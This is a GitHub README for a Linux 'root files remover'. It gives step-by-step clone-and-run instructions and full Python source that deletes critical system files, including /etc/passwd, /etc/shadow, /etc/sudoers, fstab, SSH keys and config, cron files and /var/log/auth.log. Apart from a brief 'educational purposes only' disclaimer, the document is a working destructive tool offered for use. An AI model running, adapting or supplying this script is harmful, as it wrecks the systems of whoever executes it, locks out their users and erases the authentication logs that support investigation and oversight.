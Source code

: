 <!--Linux-Root-Files-Remover -->

<p align="center">
  <img src="images.jpeg">
</p>

<h3><p align="center">Deleting Linux Root Files</p></h3>

This python script is used to delete critical system files and can cause a lot of damage if misused.

<h5><p align="center">How to Use This Script</p></h5>

<h3><p align="center">Run Python File</p></h3>

1. Install Python on your system if it is not already installed. You can download it from the official Python website.

2. Clone the repo to your device 

3. Open a terminal/command prompt and navigate to the directory where you saved the python file.

4. Run the python script using the command `Linux-Root.py`. This will execute the script and delete the files listed in the `files_to_delete` list.

<h3><p align="center">Run Bash File</p></h3>

- Just, Clone this repository -
  ```
  git clone https://github.com/7ussainnabeel/Linux-Root-Files.git
  ```

- Now go to cloned directory and run `Linux-Root.sh` -
  ```
  $ cd LINUX-ROOT-FILES
  $ bash Linux-Root.sh
  ```
##

<h3><p align="center">Code Explanation</p></h3>

```python
import os

files_to_delete = [
    "/etc/passwd",
    "/etc/shadow",
    "/etc/group",
    "/etc/sudoers",
    "/etc/ssh/sshd_config",
    "/etc/hosts",
    "/etc/network/interfaces",
    "/etc/fstab",
    "/etc/hostname",
    "/etc/resolv.conf",
    "/etc/securetty",
    "/etc/motd",
    "/var/log/auth.log",
    "/root/.ssh/authorized_keys",
    "/etc/hosts.allow",
    "/etc/hosts.deny",
    "/etc/crontab",
    "/etc/cron.d/",
    "/etc/passwd-",
    "/etc/shadow-",
]

for file in files_to_delete:
    if os.path.exists(file):
        os.remove(file)
        print(f"Deleted {file}")
    else:
        print(f"{file} does not exist")

The script first imports the os module which provides a way to interact with the system.

The files_to_delete list contains the file paths of the files that the script will delete.

The script then iterates over each file in the files_to_delete list. If the file exists, it is deleted using the os.remove() function. The print() function is used to display a message indicating whether the file was deleted successfully or not.

This Tool is made for educational purposes only. Do not attempt to violate the law with anything contained here. If this is your intention, then Get the hell out of here!